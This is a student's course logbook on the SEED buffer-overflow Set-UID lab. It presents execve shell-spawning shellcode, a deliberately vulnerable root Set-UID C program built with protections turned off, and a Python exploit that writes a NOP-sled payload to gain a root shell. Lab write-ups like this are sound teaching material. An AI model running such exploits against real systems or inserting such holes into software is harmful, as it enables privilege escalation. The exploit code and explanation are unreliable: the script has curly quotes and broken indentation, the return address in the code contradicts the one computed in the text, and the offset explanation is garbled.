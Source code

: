 # LOGBOOK5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

![Task1](images/logbook5/git51.png)

## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```shell
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

![Task3](images/logbook5/git52.png)

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.

